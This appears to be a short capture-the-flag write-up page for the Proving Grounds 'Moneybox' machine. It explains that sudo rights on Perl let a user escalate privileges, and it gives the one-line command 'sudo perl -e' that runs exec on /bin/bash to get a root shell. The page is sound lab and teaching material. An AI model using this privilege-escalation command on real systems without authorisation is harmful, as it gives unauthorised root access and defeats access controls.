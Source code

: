 ```yaml
---
layout: default
title: Perl
parent: Sudo
nav_order: 1
---
```


# Perl

---

We have sudo privileges for _/usr/bin/perl_

![sudo](../../../../assets/images/ctfs/proving_grounds/moneybox/sudo.png)

![gtfobins](../../../../assets/images/ctfs/proving_grounds/moneybox/gtfobins.png)

Run _perl_ to execute /bin/bash and elevate to a root shell.

```bash
sudo perl -e 'exec "/bin/bash";'
```

![root](../../../../assets/images/ctfs/proving_grounds/moneybox/root.png)
